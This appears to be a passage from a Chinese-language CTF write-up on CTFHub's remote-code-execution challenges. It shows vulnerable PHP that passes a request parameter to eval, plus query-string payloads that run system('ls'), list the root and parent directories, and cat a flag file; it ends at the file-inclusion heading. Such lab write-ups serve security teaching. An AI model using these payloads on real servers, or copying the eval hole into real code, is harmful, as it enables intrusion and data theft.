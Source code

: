```yaml
---
layout: post
title: 'CTFHub-RCE漏洞wp'
date: "2025-02-10T00:37:42Z"
---
```

CTFHub-RCE漏洞wp
==============

引言
--

题目共有如下类型

![](https://track123.oss-cn-beijing.aliyuncs.com/20250209171809927.png)

### 什么是RCE漏洞

RCE漏洞，全称是**Remote Code Execution**漏洞，翻译成中文就是**远程代码执行**漏洞。顾名思义，这是一种安全漏洞，允许攻击者在受害者的系统上远程执行任意代码

eval执行
------

分析源码：

     <?php
    if (isset($_REQUEST['cmd'])) {         //检查是否有cmd参数且不为空
        eval($_REQUEST["cmd"]);            //执行cmd传入的php代码
    } else {
        highlight_file(__FILE__);
    }
    ?> 
    

执行命令查看当前目录

    ?cmd=system("ls");
    

![](https://track123.oss-cn-beijing.aliyuncs.com/20250207164655930.png)

查看根目录或者上级目录一个一个查找

    ?cmd=system("ls /");
    ?cmd=system("ls ../../../");
    

发现flag文件

![](https://track123.oss-cn-beijing.aliyuncs.com/20250207164833196.png)

**cat /flag\_8751**即可

![](https://track123.oss-cn-beijing.aliyuncs.com/20250207164939167.png)

文件包含
----
